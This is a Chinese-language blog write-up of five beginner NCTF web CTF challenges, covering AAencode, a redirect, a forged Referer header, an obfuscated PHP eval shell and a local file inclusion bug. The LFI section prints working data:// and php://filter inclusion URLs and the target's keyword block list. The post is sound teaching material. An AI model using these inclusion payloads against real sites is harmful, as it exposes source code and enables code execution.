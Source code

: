 ```yaml
---
layout: post
title: NCTF Web 5 题题解（Part 1）
tags: NCTF Write-up Web
---
```


* 目录: 
{:toc}

### 100 AAencode  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/*bgOs61*KFAG82G7BTNqrGItjt.ktJ5DEHDJE5kTwZ0!/r/dLAAAAAAAAAA){: width="80%"}  

	> javascript aaencode  
	> [http://115.28.150.176/aaencode.txt](http://115.28.150.176/aaencode.txt)  

* 题解:  
都提示是 JavaScript 了, 用浏览器的 console 跑一下试试看:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/7emM69dnS7ZiLfZmcGMc1mk0P7QN6H3wAiN4oNL7DWc!/r/dK0AAAAAAAAA){: width="100%"}  

* flag: nctf{javascript_aaencode}
<hr>

### 100 单身二十年  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/WYGRVUjGV*Seie8dVvZK0XeWSXdMghMl8ZSTwg7P1MQ!/r/dNwAAAAAAAAA){: width="80%"}  

	> 这题可以靠技术也可以靠手速！  
	> 老夫单身二十年，自然靠的是手速！  
	> 题目地址: [撸了他！](http://chinalover.sinaapp.com/web8/)  

* 题解:  
点第一个页面的链接, 仔细看的话能看出有跳转, 我手速真的很快, 尝试了一次就把中间那张图给截下来了:   
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/UJ8QZWkWjyr2Hb3Hn2cJ13jGbavVW50o85ufVdzGJ.4!/r/dHwBAAAAAAAA){: width="100%"}  
有跳转当然要用拦截工具了, Fiddler F11:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/4AA5qT.T.175*MSDjRHzZVQth8MBb0ABbzmuMMbdeUg!/r/dAYBAAAAAAAA){: width="100%"}  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/n1ROW56tMZs59r2zFaCAfmgjNv13*X3dYTDmlSiKLwk!/r/dMYAAAAAAAAA){: width="100%"}  

* flag: nctf{yougotit_script_now}   
<hr>

### 100 你从哪里来  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/v*Uij.KE8SrMaM1tLIqjOglZk28IiVgEd.oIMsd3nn8!/r/dAsBAAAAAAAA){: width="80%"}  

	> 你是从 google 来的吗？   
	> [http://115.28.150.176/referer/index.php](http://115.28.150.176/referer/index.php)

* 题解:   
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/hTd7cZZ8kw.YdL*gWelw5gm1kdJ*X77oh2Igujh.I5U!/r/dNwAAAAAAAAA){: width="80%"}  
很明显, 改 HTTP requests 中的 `referer`, 可以用 firefox 的 tamper data 插件, 这里还是用 fiddler.    
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/uNpijEofdO0qmGhtguDly8WZGWnz91dZqLYAcHC3QjA!/r/dAoBAAAAAAAA){: width="100%"}  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/iv38eCVvlcyWeP23wuUlYRV7KIAmzB0eVfMN7SEUQvk!/r/dHwBAAAAAAAA){: width="100%"}  

* flag: nctf{http_referer}   
<hr>

### 100 php decode  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/1mXB.qFELl2GEUfhE6ulQMICaWnfaI1LQ7fTvxPlYEk!/r/dAoBAAAAAAAA){: width="80%"}  

	> 见到的一个类似编码的shell，请解码   
	> 
	> ```php   
	<?php
	function CLsI($ZzvSWE) {
		$ZzvSWE = gzinflate(base64_decode($ZzvSWE));
		for ($i = 0; $i < strlen($ZzvSWE); $i++) {
			$ZzvSWE[$i] = chr(ord($ZzvSWE[$i]) - 1);
		}
		return $ZzvSWE;
	}
	eval(CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));
	?>
	> ```  
	> 

* 题解:   
	首先运行题目给的代码, 结果解释器报错:  

	> Parse error: syntax error, unexpected '{' in D:\Course\CTF\NCTF\php decode\decode.php(16) : eval()'d code on line 2  

	那么回来看看出错的代码: `eval(CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));` 
	eval 的参数必须是一个合法的 php 语句, 那么还是先把 eval 的参数输出看看再说, 代码改成:  
	`echo CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));`, 结果输出如下:

	> 锘縫hpinfo();  
	> flag:nctf{gzip_base64_hhhhhh}  

* flag: nctf{gzip_base64_hhhhhh}  
<hr>

### 150 文件包含  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/tIHjsm6TX.J6ADSq701wt770uWEjWxbA3IpLKPVB504!/r/dK0AAAAAAAAA){: width="80%"}  

	> 没错 这就是传说中的LFI  
	> 传送门[点我带你飞](http://4.chinalover.sinaapp.com/web7/index.php)  
	>   
	> TIPS:[http://drops.wooyun.org/tips/3827](http://drops.wooyun.org/tips/3827)  

* 题解:   
	题目是文件包含, 而且是 LFI, 即本地文件包含, 那应该就不是远程包含一句话这类思路了, 先试试直接写 shell 呢?
	[http://4.chinalover.sinaapp.com/web7/index.php?file=data:text/plain,<?php phpinfo();?>](http://4.chinalover.sinaapp.com/web7/index.php?file=data:text/plain,<?php phpinfo();?>)  
	结果是:  

	> Oh no!  

	嗯...试试读源码, php 有个特殊协议(其实我也不会php, 提示给的乌云drops很好, 但是乌云已经...:(, php://filter 用于数据流打开时的筛选过滤应用, 如果通过它读取 php 文件并编码成不能正常运行的形式, 就可以得到编码后的源码了, 试试?
	[http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php](http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php)
	结果是:  

	> PGh0bWw+CiAgICA8dGl0bGU+YXNkZjwvdGl0bGU+CiAgICAKPD9waHAKCWVycm9yX3JlcG9ydGluZygwKTsKCWlmKCEkX0dFVFtmaWxlXSl7ZWNobyAnPGEgaHJlZj0iLi9pbmRleC5waHA/ZmlsZT1zaG93LnBocCI+Y2xpY2sgbWU/IG5vPC9hPic7fQoJJGZpbGU9JF9HRVRbJ2ZpbGUnXTsKCWlmKHN0cnN0cigkZmlsZSwiLi4vIil8fHN0cmlzdHIoJGZpbGUsICJ0cCIpfHxzdHJpc3RyKCRmaWxlLCJpbnB1dCIpfHxzdHJpc3RyKCRmaWxlLCJkYXRhIikpewoJCWVjaG8gIk9oIG5vISI7CgkJZXhpdCgpOwoJfQoJaW5jbHVkZSgkZmlsZSk7IAovL2ZsYWc6bmN0ZntlZHVsY25pX2VsaWZfbGFjb2xfc2lfc2lodH0KCj8+CjwvaHRtbD4=  

	base64 解码后:

	> ```  
	> <html>  
	> <title>asdf</title>  
    >  
	> <?php  
	> error_reporting(0);  
	> if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}  
	> $file=$_GET['file'];  
	> if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){  
	>     echo "Oh no!";  
	> exit();  
	> }  
	> include($file);   
	> //flag:nctf{edulcni_elif_lacol_si_siht}  
	> 
	> ?>  
	> </html>  
	> ```  

* flag: nctf{edulcni_elif_lacol_si_siht}  
<hr>

<div style="display:inline;float:left">  
	<a href="/2016/10/02/writeup-nctf-web-part-0.html">上 • NCTF Web 5 题题解（Part 0）</a>  
</div>  
<div style="display:inline;float:right">  
	<a href="/2017/02/09/writeup-nctf-web-part-2.html">下 • NCTF Web 5 题题解（Part 2）</a>
</div>